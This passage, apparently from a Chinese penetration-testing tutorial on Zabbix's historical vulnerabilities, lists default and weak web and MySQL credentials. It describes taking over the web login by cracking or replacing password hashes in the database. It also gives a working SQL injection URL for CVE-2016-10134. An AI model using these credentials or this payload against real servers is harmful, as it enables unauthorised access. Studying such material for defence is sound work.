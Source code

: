 ## [](#2-zabbix-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E)2 Zabbix 历史漏洞

### [](#21-%E5%BC%B1%E5%8F%A3%E4%BB%A4)2.1 弱口令

#### [](#211-web-%E7%AB%AF)2.1.1 Web 端

Zabbix 安装后自带 Admin 管理员用户和 Guests 访客用户（低版本），可登陆 Zabbiax 后台。

常见弱口令组合：

-   `admin:zabbix`
-   `Admin:zabbix`
-   `guset:空口令`

#### [](#212-mysql-%E7%AB%AF)2.1.2 mysql 端

由于 root 用户默认情况下无法外连，运维通常会新建 MySQL 用户 `zabbix`，常见密码如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```fallback<br>123456<br>zabbix<br>zabbix123<br>zabbix1234<br>zabbix12345<br>zabbix123456<br>``` |

拿下 MySQL 数据库后，可解密 users 表的密码 md5 值，或者直接替换密码的 md5 为已知密码，即可登录 Zabbix Web。

### [](#22-cve-2016-10134---sql-%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E)2.2 CVE-2016-10134 - SQL 注入漏洞

> 该漏洞的具体分析可参考：[zabbix SQL 注入漏洞（CVE-2016-10134）](https://blog.iwonder.run/2020/12/20/zabbix-sql-zhu-ru-lou-dong-cve-2016-10134/)，原理是 insert 插入时未对用户输入的数据进行过滤，可以进行显错注入。

#### [](#221-%E5%B7%B2%E6%9C%89%E7%94%A8%E6%88%B7%E5%87%AD%E6%8D%AE)2.2.1 已有用户凭据

以 Guest 用户登录后，查看 Cookie 中的`zbx_sessionid`，复制后 `16` 位字符：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221020167.png-water_print](assets/1699408100-e6da71cb8913701766b1839529eee22d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221020167.png-water_print")

将这 16 个字符作为 sid 的值，访问 `http://your-ip:8080/latest.php?output=ajax&sid=16位 ID&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：
